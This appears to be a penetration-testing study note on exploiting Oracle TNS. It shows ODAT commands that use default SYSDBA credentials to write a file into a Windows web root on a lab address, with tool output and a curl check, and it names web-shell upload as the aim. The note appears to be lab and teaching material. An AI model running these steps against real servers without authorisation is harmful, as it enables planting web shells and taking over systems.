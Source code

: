 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/Oracle-TNS/Exploitation
---
```


# Exploitation

<!-- File Upload {{{-->
## File Upload

It may be possible to upload a web shell to the target with
[[Enumeration#ODAT|ODAT]] if

- the server is running a web server
- the server's [[Webapp/General/Web Server Root#Default|root directory location]]
  is known

1. Create a payload

```sh
echo "Oracle File Upload Test" > testing.txt
```

2. Upload the file to the database with [[Enumeration#ODAT|ODAT]]

```sh
./odat.py utlfile -s <target_ip> -d XE -U <use> -P <password> --sysdba --putFile C:\\path\\to <file.ext> ./testing.txt
```

<!-- Example {{{-->
> [!example]-
>
> ```sh
> ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
> ```
>
> > [!info]-
> >
> > - `utlfile`: [Oracle UTL_FILE](https://docs.oracle.com/database/121/ARPLS/u_file.htm)
> >   functionality to upload a file
> > - `-s 10.129.204.235`: target IP of the Oracle instance.
> > - `-d XE`: database/SID (Oracle XE).
> > - `-U scott`: username
> > - `-P tiger`: password in cleartext
> > - `--sysdba`: run with SYSDBA privileges
> > - `--putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt`:
> >   upload a file to the DB server's filesystem
> >
>
> ```sh
> [1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server
> [+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
> ```
<!-- }}} -->

3. Test if the uppload worked with [cURL](https://curl.se/)

```sh
curl -X GET http://10.129.204.235/testing.txt
```
```sh
Oracle File Upload Test
```

<!-- }}} -->
